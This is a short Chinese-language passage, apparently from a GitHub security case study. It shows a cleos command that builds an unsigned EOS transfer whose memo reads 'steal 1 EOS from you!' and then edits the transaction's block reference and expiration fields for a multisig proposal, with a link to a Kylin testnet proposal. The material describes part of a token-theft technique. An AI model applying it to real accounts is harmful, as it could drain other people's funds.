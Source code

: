 我们将 transmytoken 账户的 1 EOS 转移给 eosio 账户，命令如下：


```
cleos transfer -s -j -d transmytoken eosio "1 EOS" "steal 1 EOS from you!" > transmytoken.json

cat transmytoken.json
{
  "expiration": "2018-08-09T09:52:27",
  "ref_block_num": 25799,
  "ref_block_prefix": 1477572235,
  "max_net_usage_words": 0,
  "max_cpu_usage_ms": 0,
  "delay_sec": 0,
  "context_free_actions": [],
  "actions": [{
      "account": "eosio.token",
      "name": "transfer",
      "authorization": [{
          "actor": "transmytoken",
          "permission": "active"
        }
      ],
      "data": "3015a4d94b3ccdcd0000000000ea3055102700000000000004454f530000000015737465616c203120454f532066726f6d20796f7521"
    }
  ],
  "transaction_extensions": [],
  "signatures": [],
  "context_free_data": []
}
```

将上述文件中的 ref_block_num 和 ref_block_prefix 改为 0，将 expiration 改为 `1970-01-01T00:00:00`


其余步骤请参考 CASE1。

Kylin 测试网络中已经提交 transtoken proposal：https://tools.cryptokylin.io/#/msig?proposer=eoslaomaocom&proposal=transtoken
